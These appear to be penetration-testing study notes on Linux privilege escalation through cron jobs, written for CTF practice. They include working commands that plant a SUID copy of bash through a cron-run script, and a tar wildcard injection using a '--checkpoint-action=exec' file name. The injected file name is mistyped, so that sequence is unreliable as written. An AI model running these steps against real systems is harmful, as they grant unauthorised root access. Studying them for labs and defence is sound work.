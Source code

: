 Scheduled Tasks 

## Cron and timers overview 
* cron job
	* cat /etc/crontab
	* all '*' means that it happens every minute 
	* important, espically in CTF's where it is intentional and runs often b/c the CTF wants to be quick 
* chron timers 
* SystemD timers 
## Escaliation via chron paths 
* overwrite.sh runs every minute but the file does not exist
* echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh makes the file
* Wait a minute 
* Run /tmp/bash
* Returns root 
## Cron Wildcards
* Can also be used outside of cron
* /usr/local/bin/compress.sh
```
cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
* Can inject a script and overwrite the tar 
* Only have read access to the script 
```
* echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > fileout.sh
* touch /home/user/--checkpoint-action=exec=fileoutsh
* /tmp/bash -p 
```
* Returns root
* JUST BE LOOKING FOR A WILDCARD IN CRON
## Cron file overwrites 
* if you see a file running in a crom job then just try to overwrite it and give yourself a reverse root shell
* 
